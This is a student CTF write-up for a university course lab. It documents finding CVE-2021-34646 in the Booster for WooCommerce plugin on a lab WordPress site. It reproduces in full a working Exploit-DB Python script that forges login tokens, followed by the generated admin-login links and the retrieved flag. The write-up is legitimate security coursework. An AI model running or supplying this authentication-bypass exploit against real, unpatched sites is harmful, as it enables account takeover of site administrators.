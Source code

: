 # Week 3 - CTF - Challenge 1 and 2 Report


* Upon opening the provided website ("http://ctf-fsi.fe.up.pt:5001/"), under the section "Recent Comments", there was a clickable link to a WordPress Hosting plan.
Inside this product, we were able to figure out that the software versions are:

    - WordPress → 5.8.1
    - WooCommerce plugin → 5.7.1
    - Booster for WooCommerce plugin → 5.4.3

* In the reviews for the product, we found out the existence of two users:
    - admin    
    - Orval Sanford

* Then after searcing through CVE's for all the softwares listed, we found a CVE (2021-34646) on the [Exploit Database Website](https://www.exploit-db.com/), described as "Authentication Bypass", the right fit for the challenged posed to us, since our objective was to find a CVE that allowed to login as another existing user. That led us to the [CVE page](https://www.exploit-db.com/exploits/50299) where there was the following code:

<br>

```
# Exploit Title: WordPress Plugin WooCommerce Booster Plugin 5.4.3 - Authentication Bypass
# Date: 2021-09-16
# Exploit Author: Sebastian Kriesten (0xB455)
# Contact: https://twitter.com/0xB455
#
# Affected Plugin: Booster for WooCommerce
# Plugin Slug: woocommerce-jetpack
# Vulnerability disclosure: https://www.wordfence.com/blog/2021/08/critical=-authentication-bypass-vulnerability-patched-in-booster-for-woocommerce/
# Affected Versions: <= 5.4.3
# Fully Patched Version: >= 5.4.4
# CVE: CVE-2021-34646
# CVSS Score: 9.8 (Critical)
# Category: webapps
#
# 1:
# Goto: https://target.com/wp-json/wp/v2/users/
# Pick a user-ID (e.g. 1 - usualy is the admin)
#
# 2:
# Attack with: ./exploit_CVE-2021-34646.py https://target.com/ 1
#
# 3:
# Check-Out  out which of the generated links allows you to access the system
#
import requests,sys,hashlib
import argparse
import datetime
import email.utils
import calendar
import base64

B = "\033[94m"
W = "\033[97m"
R = "\033[91m"
RST = "\033[0;0m"

parser = argparse.ArgumentParser()
parser.add_argument("url", help="the base url")
parser.add_argument('id', type=int, help='the user id', default=1)
args = parser.parse_args()
id = str(args.id)
url = args.url
if args.url[-1] != "/": # URL needs trailing /
        url = url + "/"

verify_url= url + "?wcj_user_id=" + id
r = requests.get(verify_url)

if r.status_code != 200:
        print("status code != 200")
        print(r.headers)
        sys.exit(-1)

def email_time_to_timestamp(s):
    tt = email.utils.parsedate_tz(s)
    if tt is None: return None
    return calendar.timegm(tt) - tt[9]

date = r.headers["Date"]
unix = email_time_to_timestamp(date)

def printBanner():
    print(f"{W}Timestamp: {B}" + date)
    print(f"{W}Timestamp (unix): {B}" + str(unix) + f"{W}\n")
    print("We need to generate multiple timestamps in order to avoid delay related timing errors")
    print("One of the following links will log you in...\n")

printBanner()



for i in range(3): # We need to try multiple timestamps as we don't get the exact hash time and need to avoid delay related timing errors
        hash = hashlib.md5(str(unix-i).encode()).hexdigest()
        print(f"{W}#" + str(i) + f" link for hash {R}"+hash+f"{W}:")
        token='{"id":"'+ id +'","code":"'+hash+'"}'
        token = base64.b64encode(token.encode()).decode()
        token = token.rstrip("=") # remove trailing =
        link = url+"my-account/?wcj_verify_email="+token
        print(link + f"\n{RST}")
            
```
<br>

* Naturally, we decided to create a python file with the code provided and then ran the code by executing:

    - >python3 cve-2021-34646.py http://ctf-fsi.fe.up.pt:5001/ 1
    
    - being the first input a link to the website we want to access, and the second input being the id of the user admin, which is by default 1.

<br>

* After running the code we were met by the following message:

    - "We need to generate multiple timestamps in order to avoid delay related timing errors
One of the following links will log you in..."

<br>

* With the links being:

    - #0 link for hash dc0064bfc3f001cf0479d4b9ecd2d645:
        - http://ctf-fsi.fe.up.pt:5001/my-account/?wcj_verify_email=eyJpZCI6IjEiLCJjb2RlIjoiZGMwMDY0YmZjM2YwMDFjZjA0NzlkNGI5ZWNkMmQ2NDUifQ

    - #1 link for hash e53677d875c53ec5ea9e4fd6b9f64258:
        - http://ctf-fsi.fe.up.pt:5001/my-account/?wcj_verify_email=eyJpZCI6IjEiLCJjb2RlIjoiZTUzNjc3ZDg3NWM1M2VjNWVhOWU0ZmQ2YjlmNjQyNTgifQ

    - #2 link for hash 7daffa43a97b510abb0bbdab601b261a:
        - http://ctf-fsi.fe.up.pt:5001/my-account/?wcj_verify_email=eyJpZCI6IjEiLCJjb2RlIjoiN2RhZmZhNDNhOTdiNTEwYWJiMGJiZGFiNjAxYjI2MWEifQ

<br>
<br>

* Upon clicking on all three links, one of them redirected us to the website, but this time we were logged in as admin.

* Then since we were finally signed in, we could go to the [link](http://ctf-fsi.fe.up.pt:5001/wp-admin/edit.php) provided at the end of the challenge, where we found a Post titled "Message to our employees", inside the Post was the following:
    ```
    Private: Message to our employees

    James, our former head of security, the one who got sacked because he says that Caesar cipher is not secure enough to store user passwords , sent me an email using IPoAC with his old credentials. If you need something from me , please don’t bother me, use my credentials instead.

    Currently, my password is flag{please don’t bother me}. I’m lazy so I haven’t change this password yet, it needs to be more secure, something like hktpu1234.

    Best regards,
    Your CISO
    ```


* Given this we were finally able to solve the CTF challenge 2, where we had to input the flag found, that being:

    - > flag{please don’t bother me}
